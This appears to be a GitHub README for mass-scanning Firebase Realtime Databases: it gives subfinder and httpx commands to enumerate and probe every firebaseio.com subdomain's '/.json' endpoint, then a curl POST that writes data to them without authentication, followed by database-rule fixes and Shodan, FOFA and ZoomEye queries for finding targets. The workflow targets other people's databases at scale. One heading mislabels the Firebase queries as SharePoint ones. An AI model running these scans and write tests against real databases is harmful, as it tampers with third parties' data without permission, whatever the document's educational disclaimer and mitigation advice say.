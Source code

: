 
# 📝 Firebase Subdomain Enumeration & PoC Testing

This repository provides a workflow to find subdomains of `firebaseio.com`, test them for public accessibility, and exploit a `.json` endpoint to check for write vulnerabilities. Additionally, mitigation steps are provided to fix the issue.

## ⌛ Requirements
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Httpx](https://github.com/projectdiscovery/httpx)
- Curl

## 🔍 Workflow

### ✅ Subdomain Enumeration
Use `subfinder` to enumerate subdomains for `firebaseio.com`:

```bash
subfinder -d firebaseio.com -o subdomains.txt
```

### ✅ Test Subdomains
Once subdomains are collected, use `httpx` to check `.json` endpoints for accessible responses (HTTP status code 200):

```bash
httpx -l subdomains.txt -path "/.json" -mc 200 -o valid_subdomains.txt
```

### ✅ PoC Testing
Use `curl` to send a POST request to the `.json` endpoint to test if data can be written without authentication:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json -d '{"test":"poc"}' -H "Content-Type: application/json"
```

If successful, the server is vulnerable to unauthenticated write access.

### 🔨 How to Fix it :
To secure the Firebase database:

1. **Set Firebase Database Rules**:
   - Open the Firebase Console.
   - Go to *Database > Rules*.
   - Update the rules to restrict access only to authenticated users. Example:
     ```json
     {
       "rules": {
         ".read": "auth != null",
         ".write": "auth != null"
       }
     }
     ```

2. **Audit Subdomains**:
   - Ensure there are no unused or publicly misconfigured Firebase databases.

3. **Monitor Activity Logs**:
   - Use Firebase to monitor access logs for suspicious activities.
   
## 📝 Alternative Methods to Identify SharePoint Sites

### Using Search Engines
- **FOFA**:  
  Query: `header="domain="firebaseio.com""`

- **Shodan**:  
  Query: `http.title:"Firebase""`

- **ZoomEye**:  
  Query: `site:"firebaseio.com""`


## ⚠️ Disclaimer
This script is intended for educational purposes and for security testing of systems you own or have explicit permission to test. Do not use this for unauthorized activities.

## 💰 Support Me  

If you find this work helpful, you can support me:  
- [![Buy Me a Coffee](https://www.buymeacoffee.com/assets/img/custom_images/yellow_img.png)](https://buymeacoffee.com/ghost_sec)  

Thanks for your support! ❤️
